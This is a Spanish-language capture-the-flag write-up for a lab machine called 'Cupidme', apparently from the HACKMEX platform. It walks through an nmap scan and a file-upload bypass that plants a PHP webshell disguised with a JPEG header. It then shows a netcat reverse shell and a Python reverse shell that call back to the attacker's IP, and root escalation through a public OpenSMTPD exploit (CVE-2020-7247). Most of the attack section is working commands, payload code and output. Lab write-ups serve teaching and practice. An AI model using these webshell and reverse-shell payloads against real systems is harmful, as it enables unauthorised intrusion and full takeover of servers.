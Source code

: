 # Cupidme - HACKMEX

**OS**: Linux   
**Dificultad**: Basic   
**Puntos**: 5,550   

## Resumen 
- Unrestricted File Upload 
- OpenSMTPD - Remote Code Execution 

## Nmap Scan

`nmap 10.10.10.205` 

```
xen@xen-env:~/hackmex$ nmap 10.0.30.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-19 13:25 CDT
Nmap scan report for 10.0.30.187
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.37 seconds
xen@xen-env:~/hackmex$
```
## Enumeracion 

Enumerando el puerto 80 podemos observar dentro del codigo fuente el siguiente mensaje

```
<!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>-->
```

Haciendo un analisis del codigo fuente, vemos que hace un action hacia el archivo upload.php, en donde realiza una subida de archivos. Asi que probemos como reacciona a nuestra solicitud.

## Unrestricted File Upload

1er intento. Subimos un archivo sencillo

`curl -F "image=@file.txt" http://10.0.30.187/upload.php`

```
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

2do intento. Subimos un archivo php con cabecera jpeg

`curl -F "image=@xen.php" http://10.0.30.187/upload.php`

```
Success. file uploaded at images/xen.php
```

Una vez subido con exito nuestra webshell, podemos ejecutar comandos remotamente.

`curl http://10.0.30.187/images/xen.php?xen=id`

```
����
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora probamos una revershell

`curl "http://10.0.30.187/images/xen.php?xen=nc -e /bin/bash 10.10.0.26 2121"`

De nuestro lado recibiremos la conexion

```
xen@xen-env:~/hackmex$ nc -lvp 2121
listening on [any] 2121 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 56334
```

## OpenSMTPD - Remote Code Execution 

Viendo los servicios locales observamos un puerto muy relevante

```
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         128             127.0.0.11:41037            0.0.0.0:*       
LISTEN    0         128                0.0.0.0:80               0.0.0.0:*       
LISTEN    0         5                127.0.0.1:25               0.0.0.0:*       
LISTEN    0         128              127.0.0.1:9001             0.0.0.0:* 
```

Probando los puertos observamos lo siguiente

```
www-data@cupidme:/tmp$ nc 127.0.0.1 25 
nc 127.0.0.1 25 
220 cupidme.echocity-f.com ESMTP OpenSMTPD
```
Tratando de un servicio llamado OpenSMTP, por lo que buscando un exploit publico damos con el siguiente: [CVE-2020-7247](https://www.exploit-db.com/raw/47984)

Ejecutamos el exploit y esperamos conexion reversa
```
www-data@cupidme:/tmp$ python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
www-data@cupidme:/tmp$ 
```

Pwn!!

```
xen@xen-env:~/hackmex$ nc -lvp 2222
listening on [any] 2222 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 44170
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

## Archivos utilizados 

**xen.php**
```php
����
<?php system($_GET['xen']);?>
```

**reverse.php**
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

